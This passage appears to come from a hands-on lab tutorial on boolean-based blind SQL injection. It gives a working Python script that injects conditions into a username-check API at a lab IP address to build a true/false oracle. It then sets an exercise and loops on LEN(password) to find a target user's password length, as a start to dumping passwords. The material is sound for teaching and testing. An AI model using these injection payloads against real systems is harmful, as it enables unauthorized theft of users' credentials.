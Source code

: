 ```python
#!/usr/bin/python3

import requests
import json
import sys
from urllib.parse import quote_plus

# The user we are targeting
target = "maria"

# Checks if query `q` evaluates as `true` or `false`
def oracle(q):
    p = quote_plus(f"{target}' AND ({q})-- -")
    r = requests.get(
        f"http://192.168.43.37/api/check-username.php?u={p}"
    )
    j = json.loads(r.text)
    return j['status'] == 'taken'

# Check if oracle evalutes `1=1` and `1=0` as expected
assert oracle("1=1")
assert not oracle("1=0")

```

## Question

Use the oracle to figure out the number of rows in the `user` table. You can use the query below as a base:

```sql
(select count(*) from users) > 0

```


# Extracting Data

## Finding the Length

Now that we have a functioning oracle, we can get to work on dumping passwords! The first thing we have to do is find the length of the password. We can do this by using [LEN(string)](https://learn.microsoft.com/en-us/sql/t-sql/functions/len-transact-sql?view=sql-server-ver16), starting from `1` and going up until we get a positive result.

```python
# Get the target's password length
length = 0
# Loop until the value of `length` matches `LEN(password)`
while not oracle(f"LEN(password)={length}"):
    length += 1
print(f"[*] Password length = {length}")

```
